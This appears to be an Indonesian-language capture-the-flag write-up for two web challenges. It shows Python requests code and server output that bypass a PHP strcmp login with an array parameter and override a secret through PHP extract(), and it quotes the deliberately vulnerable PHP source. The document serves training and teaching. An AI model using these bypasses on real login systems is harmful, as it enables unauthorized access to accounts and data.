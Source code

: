 Web Exploitation
================

<!--ts-->
  * [Strcmp (5)](#strcmp5)
  * [Guess The Secret (25)](#guess-the-secret25)
  * [Another Secret (25)](#another-secret)
  * [Bank of Ctfs (5)](#bank-of-ctfs)
<!--te-->

Strcmp(5)
=========

```409 Solved
Author: abdilahrf  
Point: 5   Difficulties:

Strcmp is used to validate the password that user inputted and check is that a valid password if the password is not valid you can't get the flag! Find a way to get the flag http://chall.ctfs.me:8002/strcmp/
```

Tampilan dari alamat berikut merupakan halaman login yang memasukan username dan password sebagai input, dalam pengerjaan digunakan python interpreter dan library request.
Memasukan username dan password secara acak 

```python
In [1]: import requests
In [2]: r = requests.Session()
In [3]: a = r.post("http://chall.ctfs.me:8002/strcmp/", data={"username":"A", "pas
   ...: sword":"A", "submit":"Login"})
In [4]: a.text
Out[4]: u'<div style="width:100%;color:#fff;"><b style="color:#000;">Login page</b> guest:guest</div>\n<form method="post" action="" >\n<input type="text" name="username" />\n<input type="password" name="password" />\n<input type="submit" name="submit" value="Login" />\n</form>\n'

```

melakukan request kembali dengan username guest dan password guest

```python
In [5]: a = r.post("http://chall.ctfs.me:8002/strcmp/", data={"username":"guest", "pas
   ...: sword":"guest", "submit":"Login"})
In [6]: a.text
Out[6]:  u'Welcome Guest, to get flag you must login as admin<div style="width:100%;color:#fff;"><b style="color:#000;">Login page</b> guest:guest</div>\n<form method="post" action="" >\n<input type="text" name="username" />\n<input type="password" name="password" />\n<input type="submit" name="submit" value="Login" />\n</form>\n'

```

Seperti pada nama soal kemungkinan authentikasi yang digunakan pada password adalah strcmp, vulnerability pada strcmp adalah apabila string dicompare dengan tipe lain seperti array misalnya, maka untuk mengerjakan soal ini digunakan request seperti berikut

```python
In [7]: a = r.post("http://chall.ctfs.me:8002/strcmp/", data={"username":"admin", "pas
   ...: sword[]":"A", "submit":"Login"})
In [8]: a.text
Out[8]:  u'flag : CTFS{strcmp_is_a_nightmare}<div style="width:100%;color:#fff;"><b style="color:#000;">Login page</b> guest:guest</div>\n<form method="post" action="" >\n<input type="text" name="username" />\n<input type="password" name="password" />\n<input type="submit" name="submit" value="Login" />\n</form>\n'

```

Guess The Secret(25)
====================
```182 Solved
Author: abdilahrf  
Point: 25   Difficulties:

Can you guess the value from php rand() function ? if you can, let's grab the flag http://chall.ctfs.me:8002/guess-the-secret
```
Pada tampilan halaman jika dilakukan page source terlihat komentar debug=false, mengubah menjadi dengan true dengan menambahkan parameter debug=true pada url maka akan muncul source code halaman tersebut

```php
<?php
include 'flag.php';

if(isset($_GET['debug']) == "true"){
    show_source(__FILE__);  
}

if($_SERVER['REQUEST_METHOD'] == "POST"){
    $secretKey = rand();
    extract($_POST);
    
    if($password == $secretKey){
        echo '<br>'.FLAG;   
    }else{
        echo "<br>not match";   
    }    
}
?>


<form method="POST"  action="<?=$_SERVER['PHP_SELF']?>" >
    <input type="text" name="password">
    <input type="submit" name="sb">
</form>
<!-- ?debug=false -->
```
Terdapat statement extact pada source code yang berfungsi untuk menjadikan parameter passing menjadi variabel pada php, pada source code ini paramter yang digunakan adalah password, penggunakan extract pada source code ini adalah penggunakan extract sesudah deklarasi variabel secretKey dimana maka variabel secretKey dapat di overide dengan paramter secretKey yang dikirim oleh user.

Digunakan python dan library requests untuk menyelesaikan soal ini.

```python
In [10]: requests.post("http://chall.ctfs.me:8002/guess-the-secret/", data={"password":"A","secretKey":"A"}).text
Out[10]: u'<br>CTFS{dont_use_extract_again}\n\n<form method="POST"  action="/guess-the-secret/index.php" >\n    <input type="text" name="password">\n    <input type="submit" name="sb">\n</form>\n<!-- ?debug=false -->'
```
